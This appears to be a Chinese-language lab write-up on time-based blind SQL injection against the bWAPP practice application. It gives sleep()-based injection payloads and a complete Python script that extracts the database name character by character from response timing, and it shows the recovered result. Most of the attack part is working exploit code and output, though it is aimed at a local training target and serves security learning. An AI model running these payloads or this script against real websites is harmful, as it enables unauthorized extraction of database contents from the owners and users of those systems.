 # Time Based sqlinject

针对 网页无回显的  时间盲注。

## 1 POC
bwapp靶场
### 1.1 数据库长度
```sql
Iron Man' and length(database()) = 1  and sleep(2) -- 
Iron Man' and length(database()) = 2  and sleep(2) -- 
```
![img.png](imgs/time-based-sqli2.png)

响应时间为 毫秒级
```sql
Iron Man' and length(database()) > 1  and sleep(2) -- 
Iron Man' and length(database()) = 5  and sleep(2) -- 
```
![img.png](imgs/time-base-sqli.png)

响应时间为 秒级 说明 length() 中间为真，以此判断数据库名 长度。

### 1.2 数据库名字
```sql
ascII 33 - 127
Iron Man' and ascii(substr(database(),{},1))={} and sleep(1) --
```
![img.png](imgs/ascii码表.png)
### 2 编写 python 脚本

```python
import requests
import time

HEADER = {
    "Cookie": "Pycharm-96f049d=ea851b36-b300-4205-981a-df8d72e498c8; security_level=0; PHPSESSID=lu3shbpndil1gbjrbtulpdidp3"
}
BASE_URL = "http://localhost:9999/sqli_15.php"


def get_database_name_length() -> int:
    count = 0
    for i in range(100):
        # --+ 注释可用
        url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) --+&action=search".format(i)

        # --空格 注释可用
        # url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) -- &action=search".format(i)

        # # 注释不可用，原因可能是 url中#号是用来指导浏览器动作的
        # url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) # &action=search".format(i)

        start_time = time.time()
        resp = requests.get(url, headers=HEADER)
        # print(resp.content)
        if time.time() - start_time > 1:
            print("长度为{}".format(i))
            count = i
            return count


def get_database_name(count):
    for i in range(count + 1):
        for j in range(33, 127):
            url = BASE_URL + "?title=Iron Man' and ascii(substr(database(),{},1))={} and sleep(1) --  &action=search".format(
                i, j)
            start_time = time.time()
            resp = requests.get(url, headers=HEADER)
            if time.time() - start_time > 1:
                print(chr(j), end="")


# get_database_name_length()
get_database_name(get_database_name_length())
```

### 2.1结果
```
长度为5
bWAPP
进程已结束,退出代码0
```